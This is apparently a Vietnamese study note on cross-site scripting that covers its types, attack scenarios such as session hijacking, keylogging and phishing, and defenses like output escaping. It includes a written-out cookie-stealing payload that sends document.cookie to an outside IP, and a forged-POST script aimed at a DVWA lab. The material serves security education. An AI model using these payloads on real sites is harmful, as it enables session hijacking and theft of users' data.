

# **Khái niệm**
<p align="center">
    
</p>

* Cross-site scripting (XSS): là lỗ hổng cho phép chèn một đoạn ***mã độc*** (script) ở dạng ***javascript/html*** vào một trang web, từ đó ***lấy cắp thông tin*** của ***người dùng*** khi họ truy cập vào một web đó
* Là ***client-side attack*** thuộc kiểu ***code injection***

## ***Nguyên nhân:***
* Xác thực đầu vào chưa chặt chẽ, phù hợp

## ***Hậu quả:***
* JS có thể truy cập được tới ***tất cả đối tượng*** ở trên trang web. Do đó nếu lấy được cookies chứa session tokens, kẻ tấn công có thể ***mạo danh người dùng***
* Lấy quyền người dùng ***vượt qua khâu đăng nhập***
* Có thể ***thay đổi các đối tượng*** trên trang web thông qua ***DOM***, từ đó dễ lòe người dùng hơn vào những thủ đoạn khác nhau

## ***Phân loại:***
* Reflected XSS
* Stored/Persistent XSS
* DOM XSS

    (Bên dưới trình bày kỹ hơn từng loại)

# **Các kịch bản tấn công (Practical Scenarios) trong XSS**
## ***Hijack a user's session - Chiếm phiên làm việc người dùng:***
- Hầu hết các ứng dụng duy trì phiên làm việc của người dùng (user session) thông qua request và session được xác định bởi session cookies
- Giả sử bạn đăng nhập thành công vào một website nào đó, server sau đó sẽ gửi session cookie thông qua `Set-Cookie` header trong response. Nhờ vậy, mỗi lần di chuyển giữa các trang trong ứng dụng, cookie đó cũng sẽ được gửi kèm trong các request tới server. Cách thức này giúp server biết được bạn là ai trong trang web
- Nếu session cookie bị đánh cắp, kẻ tấn công có thể mạo danh người dùng đó, và cái này được gọi là ***session hijacking*** - chiếm phiên làm việc
- Trình duyệt có khả năng chạy code JS, do đó code JS có thể truy cập được vào session cookie thông qua `document.cookie` (và cũng phải đương nhiên là cookie này không có flag HTTPOnly)
- Nhưng để lấy được cookie, payload nó phải như nào đấy để gửi giá trị của cookie tới website mà kẻ tấn công kiểm soát

    VD: Ta xét đoạn script sau:
```js
new Image().src = "http://192.168.149.128/bogus.php?output=" + document.cookie;
```
* Payload sẽ tạo một đối tượng Image trong DOM của trạng hiện tại với src tới một website bên ngoài. Do đó, trình duyệt của người dùng khi truy cập vào URL chứa đối tượng này sẽ gửi request tới website kia, kèm theo cookie nữa
* Như vậy tạo website của kẻ tấn công kia, nếu ta "listen" các kết nối tới server đó, ta có thể thấy các request đến server, và các thông tin này được lưu ở file access.log trong server
* Như vậy khi đã có được cookie, ta truy cập vào trang web đó, trong request ta gửi kèm cookie là ta hoàn toàn có thể mạo danh được người dùng

## ***Perform unauthorized activities - Thực hiện các hành động trái phép:***
* Nếu HTTPOnly Flag được set, ta vẫn có thể sử dụng XSS để thực hiện các hành động khác, ví dụ như thực hiện đăng tải cái gì đó của một người dùng nào đó mà không cần họ cho phép. Và cái nơi mà chúng ta đăng tải đó (cũng như mọi người dùng bình thường khác khi thực hiện gửi POST request lên) được gọi là ***guestbook***
* Để làm được điều này, ta cần làm giả một cái POST request tới guestbook với payload phù hợp. 

    VD: Ta xét payload bên dưới:
```js
    var xhr = new XMLHttpRequest();
	xhr.open('POST','http://localhost:81/DVWA/vulnerabilities/xss_s/',true);
	xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
	xhr.send('txtName=xss&mtxMessage=xss&btnSign=Sign+Guestbook');
```

- Đoạn script sẽ tạo ra đối tượng XMLHTTPRequest với các header và data phù hợp để khi script được thực thi, một request POST khác được tạo để đăng tải comment hoặc bất cứ thứ gì với danh tính là người khác

## ***Perform phishing attack - Đánh cắp thông tin người dùng:***
- Payload lúc này sẽ có thể tạo một cái form giả để gửi cho người dùng, và người dùng có thể nhập các thông tin của họ (tên và mật khẩu), và chỉ cần gửi form là request sẽ được gửi tới server mà kẻ tấn công kiểm soát

## ***Capture keystroke - Sử dụng keylogger để đánh cắp các tổ hợp phím mà người dùng bấm:***
- Lúc này payload sẽ là script JS keylogger để lấy tổ hợp phím của người dùng
- Đầu tiên, cần phải có một file JS host trên server của kẻ tấn công. Tại sao cần file riêng vì script này khá cồng kềnh, khó có thể chèn vào URL được. Đoạn script có thể có nội dung như sau:
<p align="center">
    
</p>

- File keylog.php trong script có nội dung như sau:
<p align="center">
    
</p>

- Đối với mỗi phím bấm của người dùng, một XMLHTTP request được tạo ra và gửi tới trang keylog.php trên server của kẻ tấn công. Và file keylog.php sẽ viết dữ liệu vào file data.txt

## ***Steal sensitive information - Đánh cắp thông tin mật của người dùng:***
- Giả sử một ứng dụng ngân hàng bị XSS, và trong kịch bản này, kẻ tấn công có thể xem các thông tin như số dư hiện tại, thông tin giao dịch, dữ liệu cá nhân...

# **Reflected XSS**
* Xảy ra khi ứng dụng có thể được chèn những đoạn ***script có thể thực thi được*** ngay trên ***param URL*** của một trang web, và khi người dùng khác (nạn nhân) truy cập thông qua URL đó, script sẽ ***tự động được thực thi*** nếu không có khâu kiểm duyệt input phù hợp
- Đoạn script có thể gửi các ***thông tin bảo mật*** của người dùng tới một server mà kẻ tấn công quản lý được
- Script có thể tạo thêm thẻ HTML mới, như vậy nghĩa là chuỗi được chèn sẽ được ***thêm trực tiếp*** trên trang web

    ↪ Thường xuất hiện ở ***trường tìm kiếm***, hoặc các trường yêu cầu nhập input nói chung

### ***Ví dụ:***
- Đoạn URL chứa param `term=gift` để tìm kiếm có dạng như sau:
<p align="center">
    
</p>

- Sau đó trên web trả về một thẻ chứa value `gift` của param đó
<p align="center">
    
</p>

- Nếu app không có khâu kiểm duyệt phù hợp, thay vì là một chuỗi vô hại, một đoạn script có thể chèn vào param như sau
<p align="center">
    
</p>

❗ Đoạn script trên tức là tạo một thẻ &lt;a> với src là web của kẻ tấn công nối với cookie của người dùng, tức phải gửi request tới web đó để lấy ảnh. Bằng cách nào đó, kẻ tấn công khiến người dùng truy cập được vào link đó, thế là trình duyệt thực thi đoạn script, và kẻ tấn công có được cookie của người dùng
<p align="center">
    
</p>

↪ Nhìn chung, người dùng cần phải ***truy cập vào URL*** được xây dựng bởi kẻ tấn công (tức trình duyệt của người dùng cần gửi request đến URL đó) thông qua link, tin nhắn, mail, phishing hoặc ***social engineering*** thì mới có thể bị tấn công

❗*Social engineering* : là kỹ thuật tấn công thông qua "quan hệ xã hội", tức là các chiêu trò ***phi kỹ thuật*** như xây dựng các mối quan hệ, niềm tin để lòe nạn nhân thực hiện điều gì đó có thể dẫn tới các cuộc tấn công ***kỹ thuật***

# **Stored/Persistent XSS:**
* Xảy ra khi những đoạn ***script có thể thực thi được*** có thể được chèn thông qua các trường yêu cầu nhập input nhưng thay vì hiển thị ngay trên web giống Reflected XSS, script được ***lưu trong server***, ví dụ như trong database. Như vậy mỗi lần load lại trang chứa script đó, script sẽ tự động được thực thi

    ↪ Thường xuất hiện ở trường bình luận, các bài đăng, thông báo...

### ***Ví dụ:*** 
- Một trang web cho phép bình luận lên các bài viết, và khi gửi bình luận thì trình duyệt gửi request POST như sau:
<p align="center">
    
</p>

- Sau khi comment được gửi và lưu trên server, tất cả người dùng khác truy cập vào URL tới bài viết chứa comment đó đều có thể thấy được nó, hay nói cách khác, response trả về để load trang web đó sẽ chứa comment đó
<p align="center">
    
</p>

- Nếu app không có khâu kiểm duyệt phù hợp, thay vì là một comment vô hại, một đoạn script có thể chèn vào như sau
<p align="center">
    
</p>

- Từ đó trình duyệt sẽ trả về phản hồi tương ứng với value truyền vào, đoạn script được thực thi. Như vậy mỗi lần có người dùng truy cập vào đoạn URL có chứa script, nó sẽ tự động được thực thi
<p align="center">
    
</p>

↪ Nhìn chung, Stored XSS nguy hiểm Reflected XSS vì nó ***lưu trữ lâu dài*** (persistent) trên app, và mọi người dùng truy cập trang chứa script đều bị tấn công, khác với Reflected XSS là chỉ người dùng truy cập vào chính URL chứa script đó thì mới bị tấn công

### ***Cách khai thác:***
* Bên cạnh check các entry point còn cần check xem ***exit point*** (dữ liệu đầu ra) ở đâu, vì đó mới là nơi script được thực thi

    VD: các entry point của Stored XSS thường là những nơi mang tính ***lưu trữ***, ví dụ như comment, blog post...
* Đảm bảo rằng nội dung của exit point được hiển thị trên mọi phiên làm việc, tức ai cũng có thể bị tác động

# **DOM-based XSS:**
* Là kiểu tấn công làm ***thay đổi cấu trúc DOM*** (Document Object Model) của web

    VD: thay đổi src của &lt;img>, href của &lt;a> để thực thi các script

* Thông thường, HTML là ngôn ngữ ***tĩnh*** (static), tức cấu trúc của một trang web sẽ giống y hệt như nó được code trên server, và JS sinh ra để làm cho nó ***có tính tương tác*** hơn (dynamic/interactive). Do vậy khi trình duyệt phân tích một trang web để tạo ra DOM, nếu nó gặp script thì nó sẽ thực thi script đó, nói cách khác, ***trình duyệt*** mới là ***nơi thực thi script của JS***
* DOM-based xảy ra khi user input (source) được nhận vào và truyền tới một hàm nào đó để in nó ra trang web (sink) một cách không an toàn
    * Source: một hàm hoặc thuộc tính JS nào đó ***nhận user input*** từ page, ví dụ như param trong URL (location.search), hoặc các thuộc tính khác của đối tượng DOM
    * Sink: một hàm của JS trả về giá trị input của source một cách thiếu an toàn, ví dụ như innerHTML, document.write(), element.onevent()...

#### VD: một trang web có param có URL như sau
<p align="center">
    
</p>
    
- Check source thì thấy có đoạn script như sau với nội dung: biến store lưu giá trị của param trên URL có tên là "storeId". Sau đó nó chèn trực tiếp giá trị đó vào document.write(...) trong thẻ <option>

<p align="center">
    
</p>

- Như vậy chỉ cần cài vào nó một script alert, ta hoàn toàn có thể làm script đó thực thi

<p align="center">
    
</p>

* DOM-based có thể kết hợp được với cả Reflected và Stored, tham khảo trong PortSwigger

### ***Cách khai thác:***
* Test các HTML sinks:
    * Thử các giá trị ngẫu nhiên vào source (vd: location.search), sau đó inspect xem nó xuất hiện ở đâu
    * Sau khi tìm được chỗ nó xuất hiện, xác định ***bối cảnh XSS***
* Test các JS sinks:
    * Ở đây, không phải input nào cũng ở trong DOM nên sẽ khó tìm. Có thể tham khảo JS Debugger
* Sử dụng các source và sink khác nhau:
    * document.write() thường đi với thẻ &lt;script>
    * innerHTML thường đi với &lt;img> hoặc &lt;iframe> với các event handler onload hoặc onerror

* Có thể tham khảo [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

# Cách phòng chống
* Lọc input đầu vào chặt chẽ
    * Chặn các ký tự đặc biệt như <, >, nháy đơn nháy kép bằng cách escape nó, hoặc sử dụng các loại mã hóa
    * Sử dụng các hàm trong PHP như `htmlspecialchars()` và `htmlentities()`
    * Sử dụng WAF chặn các request chứa input nghi ngờ
* Sử dụng các framework hiện đại

### ***Phân biệt `htmlspecialchars()` và `htmlentities()`***
* ***HTML entities*** là gì? Là một chuỗi ký tự có sẵn dùng để thay thế cho một vài ký tự trong HTML; có dạng `&<tên>;` hoặc `&#số;`
VD: Để hiển thị dấu nhỏ hơn (<), ta phải sử dụng `&lt;` hoặc `&#60;`
- Sự khác nhau lớn nhất của 2 hàm trên là tập các ký tự được thay thế. Cụ thể, `htmlentities()` có tập rộng hơn `htmlspecialchars()`, và cụ thể hơn nữa, `htmlspecialchars()` chỉ mã hóa các ký tự đặc biệt và quan trọng trong HTML như: `&, <, >, ', "`

<p align="center">
    
</p>

# **Phân biệt giữa DOM-based và Reflected:**
|DOM-based|Reflected|
|-|-|
|DOM-based xảy ra khi trình duyệt xử lý data từ nguồn không tin cậy bằng cách chèn nó vào sink trong DOM|Reflected xảy ra khi web lấy data từ request và cho nó vào trong response một cách không an toàn|


<br>

# Tài liệu tham khảo:
### **Khái quát chung:**
1. [PortSwigger](https://portswigger.net/web-security/cross-site-scripting)
    * [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected)
    * [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)
    * [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)
2. [OWASP](https://owasp.org/www-community/attacks/xss/)
3. [Acunetix](https://www.acunetix.com/websitesecurity/cross-site-scripting/)
4. [Viblo](https://viblo.asia/p/ky-thuat-tan-cong-xss-va-cach-ngan-chan-YWOZr0Py5Q0)
5. [Techtarget](https://www.techtarget.com/searchsecurity/definition/cross-site-scripting)
6. [Imperva](https://www.imperva.com/learn/application-security/cross-site-scripting-xss-attacks/)
    * [Reflected XSS](https://www.imperva.com/learn/application-security/reflected-xss-attacks/#:~:text=Reflected%20XSS%20attacks%2C%20also%20known,enables%20execution%20of%20malicious%20scripts.)
7. [CloudFlare](https://www.cloudflare.com/learning/security/threats/cross-site-scripting/)

### **Các kịch bản của XSS:**
1. https://pentest-tools.com/blog/xss-attacks-practical-scenarios

### **Reflected XSS in-depth:**
1. https://securitydaily.net/ky-thuat-khai-thac-xss-phan-1-reflected-xss/
2. https://www.geeksforgeeks.org/reflected-xss-vulnerability-in-depth/

### ***Stored in-depth:***

### ***DOM-based in-depth:***
* https://medium.com/@fath3ad.22/understanding-dom-based-xss-sources-and-sinks-c17ae4bc7455